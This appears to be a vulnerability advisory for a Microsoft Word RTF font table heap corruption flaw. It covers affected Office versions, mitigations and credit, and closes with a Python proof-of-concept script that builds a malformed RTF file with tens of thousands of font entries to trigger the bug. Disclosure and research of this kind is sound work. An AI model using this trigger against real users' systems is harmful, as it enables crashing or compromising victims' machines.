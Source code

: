 
## Affected Versions

This vulnerability affects at least the following versions of Microsoft Office:

* Microsoft Office 365 (Insider Preview - 2211 Build 15831.20122 CTR)
* Microsoft Office 2016 (Including Insider Slow - 1704 Build 8067.2032 CTR)
* Microsoft Office 2013
* Microsoft Office 2010
* Microsoft Office 2007

Older versions may also be affected but were not tested. Furthermore, the
technical details of this vulnerability have evolved over the years.


## Mitigations

Microsoft Office 2010 and later use Protected View to limit damage caused by
malicious documents procured from untrusted sources. Protected View is
in effect when this vulnerability manifests and thus an additional sandbox
escape vulnerability would be required to gain full privileges.

Removing the file association for the RTF extension is ineffective because
using a DOC extension will still reach the vulnerable code.


## Acknowledgement

This issue was discovered, analyzed, and reported by Joshua J. Drake (@jduck).


## Proof-of-Concept

The following Python script will generate a file that will trigger this issue:

{% highlight Python %}
#!/usr/bin/python
#
# PoC for:
# Microsoft Word RTF Font Table Heap Corruption Vulnerability
#
# by Joshua J. Drake (@jduck)
#

import sys

# allow overriding the number of fonts
num = 32761
if len(sys.argv) > 1:
	num = int(sys.argv[1])

f = open("tezt.rtf", "wb")
f.write("{\\rtf1{\n{\\fonttbl")
for i in range(num):
	f.write("{\\f%dA;}\n" % i)
f.write("}\n")
f.write("{\\rtlch it didn't crash?? no calc?! BOO!!!}\n")
f.write("}}\n")
f.close()
{% endhighlight %}